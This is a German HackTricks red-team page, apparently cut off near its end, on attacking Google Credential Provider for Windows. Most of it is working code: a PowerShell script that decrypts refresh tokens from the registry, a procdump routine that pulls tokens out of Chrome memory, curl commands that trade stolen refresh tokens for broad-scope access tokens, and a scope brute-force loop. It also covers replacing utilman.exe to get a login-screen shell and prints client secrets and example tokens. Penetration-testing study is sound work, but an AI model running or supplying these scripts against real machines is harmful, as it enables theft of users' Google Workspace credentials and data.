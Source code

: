 # GCPW - Google Credential Provider für Windows

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Grundinformationen

Dies ist die Single Sign-On-Lösung, die Google Workspaces bereitstellt, damit Benutzer sich mit **ihren Workspace-Anmeldeinformationen** an ihren Windows-PCs anmelden können. Darüber hinaus werden Tokens zum Zugriff auf Google Workspace an einigen Stellen im PC gespeichert.

{% hint style="success" %}
Beachten Sie, dass [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) in der Lage ist, **GCPW** zu erkennen, Informationen über die Konfiguration zu erhalten und **sogar Tokens**.
{% endhint %}

### GCPW - MitM

Wenn ein Benutzer auf einen Windows-PC zugreift, der über GCPW mit Google Workspace synchronisiert ist, muss er ein gängiges Anmeldeformular ausfüllen. Dieses Anmeldeformular gibt einen OAuth-Code zurück, den der PC gegen das Refresh-Token in einer Anfrage eintauschen wird:

{% code overflow="wrap" %}
```http
POST /oauth2/v4/token HTTP/2
Host: www.googleapis.com
Content-Length: 311
Content-Type: application/x-www-form-urlencoded
[...headers...]

scope=https://www.google.com/accounts/OAuthLogin
&grant_type=authorization_code
&client_id=77185425430.apps.googleusercontent.com
&client_secret=OTJgUOQcT7lO7GsGZq2G4IlT
&code=4/0AVG7fiQ1NKncRzNrrGjY5S02wBWBJxV9kUNSKvB1EnJDCWyDmfZvelqKp0zx8jRGmR7LUw
&device_id=d5c82f70-71ff-48e8-94db-312e64c7354f
&device_type=chrome
```
{% endcode %}

Neue Zeilen wurden hinzugefügt, um die Lesbarkeit zu verbessern.

{% hint style="info" %}
Es war möglich, einen MitM durch die Installation von `Proxifier` auf dem PC durchzuführen, indem die `utilman.exe`-Binärdatei mit einer `cmd.exe` überschrieben und die **Barrierefreiheitsfunktionen** auf der Windows-Anmeldeseite ausgeführt wurden, die eine **CMD** ausführt, von der aus Sie **Proxifier starten und konfigurieren** können.\
Vergessen Sie nicht, den **QUICK UDP**-Verkehr in `Proxifier` zu blockieren, damit er auf TCP-Kommunikation herabgestuft wird und Sie ihn sehen können.

Konfigurieren Sie auch in "Dienste und andere Benutzer" beide Optionen und installieren Sie das Burp CA-Zertifikat in Windows.
{% endhint %}

Darüber hinaus ist es möglich, durch Hinzufügen der Schlüssel `enable_verbose_logging = 1` und `log_file_path = C:\Public\gcpw.log` in **`HKLM:\SOFTWARE\Google\GCPW`** einige Protokolle zu speichern.

### GCPW - Fingerabdruck

Es ist möglich zu überprüfen, ob GCPW auf einem Gerät installiert ist, indem überprüft wird, ob der folgende Prozess existiert oder ob die folgenden Registrierungsschlüssel existieren:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
In **`HKCU:\SOFTWARE\Google\Accounts`** ist es möglich, die E-Mail des Benutzers und das verschlüsselte **refresh token** zuzugreifen, wenn sich der Benutzer kürzlich angemeldet hat.

In **`HKLM:\SOFTWARE\Google\GCPW\Users`** ist es möglich, die **Domains** zu finden, die sich im Schlüssel `domains_allowed` anmelden dürfen, und in den Unterkeys sind Informationen über den Benutzer wie E-Mail, Bild, Benutzername, Token-Lebensdauer, Token-Handle... zu finden.

{% hint style="info" %}
Das Token-Handle ist ein Token, das mit `eth.` beginnt und aus dem einige Informationen mit einer Anfrage extrahiert werden können, wie:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'token_handle=eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg'
# Example response
{
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 12880152
}
```
{% endcode %}

Es ist auch möglich, den Token-Handle eines Zugriffstokens mit einer Anfrage wie dieser zu finden:

{% code overflow="wrap" %}
```bash
curl -s 'https://www.googleapis.com/oauth2/v2/tokeninfo' \
-d 'access_token=<access token>'
# Example response
{
"issued_to": "77185425430.apps.googleusercontent.com",
"audience": "77185425430.apps.googleusercontent.com",
"scope": "https://www.google.com/accounts/OAuthLogin",
"expires_in": 1327,
"access_type": "offline",
"token_handle": "eth.ALh9Bwhhy_aDaRGhv4v81xRNXdt8BDrWYrM2DBv-aZwPdt7U54gp-m_3lEXsweSyUAuN3J-9KqzbDgHBfFzYqVink340uYtWAwxsXZgqFKrRGzmXZcJNVapkUpLVsYZ_F87B5P_iUzTG-sffD4_kkd0SEwZ0hSSgKVuLT-2eCY67qVKxfGvnfmg"
}
```
{% endcode %}

Soweit ich weiß, ist es nicht möglich, ein Refresh-Token oder Access-Token aus dem Token-Handle zu erhalten.
{% endhint %}

Darüber hinaus ist die Datei **`C:\ProgramData\Google\Credential Provider\Policies\<sid>\PolicyFetchResponse`** ein JSON, das Informationen zu verschiedenen **Einstellungen** wie `enableDmEnrollment`, `enableGcpAutoUpdate`, `enableMultiUserLogin` (ob mehrere Benutzer von Workspace sich am Computer anmelden können) und `validityPeriodDays` (Anzahl der Tage, an denen sich ein Benutzer nicht direkt bei Google neu authentifizieren muss) enthält.

## GCPW - Tokens abrufen

### GCPW - Registrierungs-Refresh-Token

Innerhalb der Registrierung **`HKCU:\SOFTWARE\Google\Accounts`** könnte es möglich sein, einige Konten mit dem **`refresh_token`** zu finden, das darin verschlüsselt ist. Die Methode **`ProtectedData.Unprotect`** kann es leicht entschlüsseln.

<details>

<summary>Daten von <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> abrufen und refresh_tokens entschlüsseln</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

Beispielausgabe:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

Wie in [**diesem Video**](https://www.youtube.com/watch?v=FEQxHRRP\_5I) erklärt, wenn Sie das Token in der Registrierung nicht finden, ist es möglich, den Wert (oder zu löschen) von **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** zu ändern, und beim nächsten Zugriff des Benutzers auf den Computer muss er sich erneut anmelden und das **Token wird in der vorherigen Registrierung gespeichert**.

### GCPW - Disk Refresh Tokens

Die Datei **`%LocalAppData%\Google\Chrome\User Data\Local State`** speichert den Schlüssel zum Entschlüsseln der **`refresh_tokens`**, die sich in den **Google Chrome-Profilen** des Benutzers befinden, wie:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

Es ist möglich, einige **C#-Code** zu finden, die auf diese Tokens in ihrer entschlüsselten Form in [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) zugreifen.

Darüber hinaus kann die Verschlüsselung in diesem Code gefunden werden: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

Es kann beobachtet werden, dass AESGCM verwendet wird, das verschlüsselte Token beginnt mit einer **Version** (**`v10`** zu diesem Zeitpunkt), dann hat es [**12B Nonce**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42), und dann hat es den **Cipher-Text** mit einem finalen **MAC von 16B**.

### GCPW - Dumping tokens from processes memory

Das folgende Skript kann verwendet werden, um jeden **Chrome**-Prozess mit `procdump` zu **dumpen**, die **Strings** zu extrahieren und dann nach Strings zu suchen, die mit **Zugriffs- und Refresh-Token** zusammenhängen. Wenn Chrome mit einer Google-Website verbunden ist, wird ein **Prozess Refresh- und/oder Zugriffstoken im Speicher speichern!**

<details>

<summary>Dump Chrome-Prozesse und suche nach Tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

Ich habe dasselbe mit `gcpw_extension.exe` versucht, aber es wurde kein Token gefunden.

Aus irgendeinem Grund sind **einige extrahierte Zugriffstoken nicht gültig (obwohl einige gültig sein werden)**. Ich habe das folgende Skript ausprobiert, um Zeichen 1 nach dem anderen zu entfernen, um zu versuchen, das gültige Token aus dem Dump zu erhalten. Es hat mir nie geholfen, ein gültiges zu finden, aber ich schätze, es könnte:

<details>

<summary>Zugriffstoken überprüfen, indem Zeichen 1 nach dem anderen entfernt werden</summary>
```bash
#!/bin/bash

# Define the initial access token
access_token="ya29.a0AcM612wWX6Pe3Pc6ApZYknGs5n66W1Hr1CQvF_L_pIm3uZaXWisWFabzxheYCHErRn28l2UOJuAbMzfn1TUpSKqvYvlhXJpxQsKEtwhYXzN2BZdOQNji0EXfF7po1_0WaxhwqOiE0CFQciiL8uAmkRsoXhq9ekC_S8xLrODZ2yKdDR6gSFULWaiIG-bOCFx3DkbOdbjAk-U4aN1WbglUAJdLZh7DMzSucIIZwKWvBxqqajSAjrdW0mRNVN2IfkcVLPndwj7fQJV2bQaCgYKAbQSAQ4SFQHGX2MiPuU1D-9-YHVzaFlUo_RwXA0277"

# Define the URL for the request
url="https://www.googleapis.com/oauth2/v1/tokeninfo"

# Loop until the token is 20 characters or the response doesn't contain "error_description"
while [ ${#access_token} -gt 20 ]; do
# Make the request and capture the response
response=$(curl -s -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=$access_token" $url)

# Check if the response contains "error_description"
if [[ ! "$response" =~ "error_description" ]]; then
echo "Success: Token is valid"
echo "Final token: $access_token"
echo "Response: $response"
exit 0
fi

# Remove the last character from the token
access_token=${access_token:0:-1}

echo "Token length: ${#access_token}"
done

echo "Error: Token invalid or too short"
```
</details>

### GCPW - Zugriffstoken aus Aktualisierungstoken generieren

Mit dem Aktualisierungstoken ist es möglich, Zugriffstoken zu generieren, indem es zusammen mit der Client-ID und dem Client-Geheimnis verwendet wird, die im folgenden Befehl angegeben sind:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - Scopes

{% hint style="info" %}
Beachten Sie, dass es selbst mit einem Refresh-Token nicht möglich ist, einen beliebigen Scope für das Access-Token anzufordern, da Sie nur die **Scopes anfordern können, die von der Anwendung unterstützt werden, in der Sie das Access-Token generieren**.

Außerdem ist das Refresh-Token nicht in jeder Anwendung gültig.
{% endhint %}

Standardmäßig hat GCPW nicht als Benutzer Zugriff auf jeden möglichen OAuth-Scope. Mit dem folgenden Skript können wir die Scopes finden, die mit dem `refresh_token` verwendet werden können, um ein `access_token` zu generieren:

<details>

<summary>Bash-Skript zum Brute-Forcen von Scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Und dies ist die Ausgabe, die ich zum Zeitpunkt des Schreibens erhalten habe:

<details>

<summary>Brute-forced scopes</summary>
```
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
```
</details>

Darüber hinaus ist es möglich, im Chromium-Quellcode [**diese Datei zu finden**](https://github.com/chromium/chromium/blob/5301790cd7ef97088d4862465822da4cb2d95591/google\_apis/gaia/gaia\_constants.cc#L24), die **andere Scopes** enthält, von denen angenommen werden kann, dass sie **nicht in der zuvor bruteforce-liste erscheinen**. Daher können diese zusätzlichen Scopes angenommen werden:

<details>

<summary>Zusätzliche Scopes</summary>
```
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/aidahttps://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome
```
</details>

Beachten Sie, dass das möglicherweise interessanteste ist:
```c
// OAuth2 scope for access to all Google APIs.
const char kAnyApiOAuth2Scope[] = "https://www.googleapis.com/auth/any-api";
```
Allerdings habe ich versucht, diesen Scope zu verwenden, um auf Gmail zuzugreifen oder Gruppen aufzulisten, und es hat nicht funktioniert, daher weiß ich nicht, wie nützlich er noch ist.

**Holen Sie sich ein Zugriffstoken mit all diesen Scopes**:

<details>

<summary>Bash-Skript zum Generieren eines Zugriffstokens aus refresh_token mit allen Scopes</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
https://www.googleapis.com/auth/account.capabilities
https://www.googleapis.com/auth/accounts.programmaticchallenge
https://www.googleapis.com/auth/accounts.reauth
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/aida
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/android_checkin
https://www.googleapis.com/auth/any-api
https://www.googleapis.com/auth/assistant-sdk-prototype
https://www.googleapis.com/auth/auditrecording-pa
https://www.googleapis.com/auth/bce.secureconnect
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/cast.backdrop
https://www.googleapis.com/auth/cclog
https://www.googleapis.com/auth/chrome-model-execution
https://www.googleapis.com/auth/chrome-optimization-guide
https://www.googleapis.com/auth/chrome-safe-browsing
https://www.googleapis.com/auth/chromekanonymity
https://www.googleapis.com/auth/chromeosdevicemanagement
https://www.googleapis.com/auth/chromesync
https://www.googleapis.com/auth/chromewebstore.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/cryptauth
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/experimentsandconfigs
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/gcm
https://www.googleapis.com/auth/googlenow
https://www.googleapis.com/auth/googletalk
https://www.googleapis.com/auth/identity.passwords.leak.check
https://www.googleapis.com/auth/ip-protection
https://www.googleapis.com/auth/kid.family.readonly
https://www.googleapis.com/auth/kid.management.privileged
https://www.googleapis.com/auth/kid.permission
https://www.googleapis.com/auth/kids.parentapproval
https://www.googleapis.com/auth/kids.supervision.setup.child
https://www.googleapis.com/auth/lens
https://www.googleapis.com/auth/music
https://www.googleapis.com/auth/nearbydevices-pa
https://www.googleapis.com/auth/nearbypresence-pa
https://www.googleapis.com/auth/nearbysharing-pa
https://www.googleapis.com/auth/peopleapi.readonly
https://www.googleapis.com/auth/peopleapi.readwrite
https://www.googleapis.com/auth/photos
https://www.googleapis.com/auth/photos.firstparty.readonly
https://www.googleapis.com/auth/photos.image.readonly
https://www.googleapis.com/auth/profile.language.read
https://www.googleapis.com/auth/secureidentity.action
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/supportcontent
https://www.googleapis.com/auth/tachyon
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

Einige Beispiele, die einige dieser Scopes verwenden:

<details>

